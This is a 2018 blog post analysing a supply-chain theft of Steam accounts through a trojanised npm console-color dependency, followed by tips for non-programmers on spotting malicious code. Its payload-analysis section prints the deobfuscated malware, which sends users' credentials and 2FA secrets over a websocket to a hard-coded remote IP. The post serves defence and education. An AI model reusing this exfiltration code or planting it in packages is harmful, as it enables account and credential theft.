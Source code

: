 ```yaml
---
title: "Code Auditing for Non-Programmers"
date: 2018-01-29T12:35:18Z
tags: ["misc"]
---
```


I can't believe this. Someone actually went and implemented the attack vector described in [an article posted earlier this month](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). **Tl;dr**: Malicious payload stored in an application dependency.

Around US$6,000 in TF2 items were stolen by a scammer who obtained Steam account credentials via a script they wrote. There was a window of over two weeks between release of the malicious script, and fraud being committed. This should have been avoided.

The scammer advertised his script on the backpack.tf forums, which immediately caused a bit of alarm based on what it would do: automatically overcut or undercut (i.e. list with the best price needed to always appear first) on our classifieds system. Generally, this behaviour is frowned upon because it is poor form. This user had previously been banned from several communities -- including this one -- for various reasons, and a bug in previous software he had written resulted in personal losses of thousands of dollars. In hindsight, it's clear he had a motive to do what was done, and inevitably capitalised on the laziness of his victims.

After harvesting enough user credentials, the scammer started to sign in to his victims' accounts to trade off entire inventory contents to various holding accounts. In one case, a victim's Marketplace.tf account was compromised via the Steam OpenID login (which could have been prevented by the victim, as Marketplace.tf has its own 2FA implementation). Their Marketplace.tf inventory contents were withdrawn, and a small cash payout was made to an anonymous email address.

It was when users became aware that their accounts had been hijacked that this was promptly investigated. Victims were fast to conclude that they had all, at some point, ran this script. This prompted an audit of the source code. But the damage had already been done; the scammer had gone into hiding and did his best to cover his tracks.

Ultimately, the scammer's Steam accounts were all trade banned by Valve, so the scammer did not receive much profit from dragging his reputation through the mud. However this does not mean the victims have been reimbursed, and they have had to learn a lesson or two about trusting scripts from strangers.

## Payload analysis

A thorough inspection of code in the repository showed no malicious functions; there were no dodgy HTTP requests or obfuscated `eval` bundles, and handled any credentials in a way that was obvious. Despite being poorly written, the software did what it was supposed to do. It was completely clean -- or was it? 

What was overlooked was a dependency -- a console color module with a malicious payload *just as described in the article*. This module was a line-for-line copy of the existing [better console](https://www.npmjs.com/package/better-console) module, except for when an info message is logged:

{{< highlight js >}}
  // Writes a message to the console with blue color
  info: function(){
    console.log.apply(this, arguments);		var a=['ZW1pdA==','bm9kZS1yc2E=','LS0tLS1CRUdJTiBSU...'
  }
{{< / highlight >}}

**NB**: This is massively truncated. The payload had a lot more whitespace to try and fool anyone not paying attention to the horizontal scrollbar.

Simply reformatting the one-liner revealed enough about what it did, without needing to run a deobfuscator.

{{< highlight js >}}
if (config != undefined) {
    var d = require('socket.io-client');
    var e = require(b('0x0'));
    var f = new e(b('0x1'));
    var g = JSON[b('0x2')](config);
    var h = f[b('0x3')](g, b('0x4'));
    try {
        var i = d['connect']('http://45.56.74.164:8080');
    } catch (j) {
    }
    i['on'](b('0x5'), () => {});
    i[b('0x6')]('chat\x20message', h);
    setTimeout(function () {
        i['disconnect']();
    }, 0x7d0);
}
{{< / highlight >}}

This snippet:

* Opens a websocket connection to the scammer's remote web server
* Sends the JSON-encoded contents of a global `config` variable, which contains the user's credentials -- Steam username, password, and two-factor authentication secrets (fwiw, Steam's 2FA is practically snake oil)
* Closes the connection after two seconds

He could have just left it deobfuscated and he would have still succeeded. It does not matter. It was hidden well enough that nobody bothered to look for it.

## Conclusions

I have a huge concern for users who are using arbitrarily-sourced scripts without knowing what they might do. The JavaScript ecosystem in particular is wonderful for hiding a payload in plain sight; a lackluster stdlib and the number of external dependencies that are needed to compensate for it, and applications that abuse variables available on the global scope. In this case, an exploit happened thanks to the inclusion of a simple vanity package that flew under the radar.

It's hard to educate users on how to make sure what they are using is legit. There is no guarantee that auto-updating software or its dependencies will stay clean. Saying "don't trust code ever" is just wrong, and users depending on someone else to tell them if software is legitimate or not is also wrong.

We should try to instruct users on how to audit the code they're about to run -- without necessarily teaching them to program.

## Identifying malicious code

First things first: Do you trust the person you're acquiring code from? At any point, despite originally releasing genuine software, they may subtly add a new, malicious feature. You're not going to check the source code after every update, are you?

Regardless, you should know how to identify malicious code without necessarily being able to read it, whether you are a programmer or not. These tips should help you identify suspect code in common scripting languages:

1. **Look for blatantly obfuscated code.** For some reason, malicious actors *love* to obfuscate their payloads when it's not necessary. I'm not sure why. If you see random strings of characters and anonymous variable names in the middle of otherwise nicely-written code, it should be pretty obvious there's something to hide.
  * **JavaScript**: Search for uses of `eval`. The use of `eval` is a sure sign that code is vulnerable to exploitation, intentionally or not. It is either bad code, or *bad* code. Used by attackers, this is used to pack and run malicious code. Used by novice programmers, this is used to write bots that answer maths questions and inevitably get hacked to death.
  * Do keep an eye on the horizontal scrollbar, or enable soft wrapping in your text editor to reveal hidden snippets.
  
2. **Look for shell command calls.** Like `eval`, *unnecessary* execution of shell commands may be bad or malicious. However, they may have a valid use case. Great care should be taken when using shell commands in code, as to not allow arbitrary execution of commands.
  * **JavaScript**: there are *many* ways to execute a shell command depending on the runtime environment, but you're probably running your scripts with Node.js. Look for `child_process` and see how this is being used.   
  * **Python**: look for usages of `os.system`, `os.popen` or the `subprocess` module. `os.*` calls should be given more attention; these commands are not cleaned and may be vulnerable to command injection if variable interpolation is used.
  * **Python**: if using Windows, also look for usages of the `win32api` module to see how this is being used.  
  
3. **Check the dependencies.** As witnessed, dependencies are a great way to hide malicious code. If you don't know what something is, take a look at it. Then scrutinize it as you would for the rest of the source code using the above steps.
  * **JavaScript**: Software written in JavaScript and various compile-to-JS languages often use the centralised npm repository. Dependencies are listed in the included `package.json` file, and package details can be checked at `https://www.npmjs.com/package/[package-name]`. If a package only has a few downloads, it should be examined thoroughly. **npm is largely unmoderated: anyone can submit a package, and anyone can pretend to be someone else**. It takes mere minutes to plagiarize someone else's package to make a copy with a similar name, so disregard any repository links, homepage links, or how pretty it looks.
  * When checking dependencies, disregard what code you see in the public repository. This won't necessarily be the same code you will download from a package manager for various reasons. **Inspect the code that was actually downloaded through the package manager.**
 
Ultimately, the number of people using a piece of software will correlate with the number of people closely inspecting it. Be careful of what you are running, especially if you are part of a niche community that does not necessarily have a wide developer scene.

Stay safe out there.